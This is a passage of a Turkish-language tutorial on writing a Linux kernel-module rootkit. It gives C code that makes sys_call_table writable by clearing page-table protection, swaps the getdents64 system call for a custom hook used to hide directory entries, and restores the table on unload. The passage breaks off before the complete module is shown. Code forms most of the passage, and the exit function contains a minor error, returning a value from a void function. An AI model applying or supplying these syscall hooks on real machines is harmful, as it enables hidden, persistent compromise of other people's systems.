 `sys_call_table`'ı yazılabilir yapmamız lazım ki asıl sistem çağrısı ile kendi oluşturduğumuz Hookumuzun sistem çağrılarını değiştirebilelim. Bunun içinde `sys_call_table` adresinin `table entry` ‘sini manual olarak writable yapmamız gerek.

O yüzden bu kısımda `lookup_address` fonksiyonu ile `page table`‘nin adresini bulup sonrasında içerisinde `sys_call_table`‘ye yazma yetkisi vereceğiz.

    int set_page_rw(unsigned long addr) {
    	unsigned int level;
    	pte_t *pte = lookup_address(addr, &level);
    	if(pte->pte &~ _PAGE_RW) pte->pte |= _PAGE_RW;
    	return 0;
    }

Eğer yüklediğiniz LKM'yi ilerde silmek isterseniz `sys_call_table`'ı tekrardan `Read-Only` yapmanız gerekecek ki bu sayede herşey eski haline dönebilsin.

    int set_page_ro(unsigned long addr) {
    	unsigned int level;
    	pte_t *pte = lookup_address(addr, &level);
    	pte->pte = pte->pte &~_PAGE_RW;
    	return 0;
    }

LKM'mizi oluşturup `insmod` ile kernel içerisine yüklediğimiz zaman çalışacak fonksiyonumuzu yazalım. Bu aşamada `0x`'den sonraki kısma sizin kendi `sys_call_table` adresinizi yazmanız gerekecek.

    static int __init getdents_hook_init(void) {
    	sys_call_table = (void*)0xffffffff81e001e0;
    	original_getdents64 = sys_call_table[__NR_getdents64];
    	set_page_rw(sys_call_table);
    	sys_call_table[__NR_getdents64] = sys_getdents_hook;
    		return 0;
    }

Peki LKM‘yi silmek istersek, oluşturduğumuz Hook fonksiyonunu `sys_call_table`‘den çıkartıp herşeyi tekrar eski haline çevirmesini ve aynı zamanda table entry‘ide tekrardan Read-Only olmasını söylüyoruz.

    static void __exit getdents_hook_exit(void) {
    	sys_call_table[__NR_getdents64] = original_getdents64;
    	set_page_ro(sys_call_table);
    		return 0;
    }

Son olarak tüm bu `__init` ve `__exit` fonksiyonlarını modül içine yükleyebiliriz.

    module_init(getdents_hook_init);
    module_exit(getdents_hook_exit);


Tüm bu aşamalardan sonra LKM'miz aşağıdaki gibi olacak...
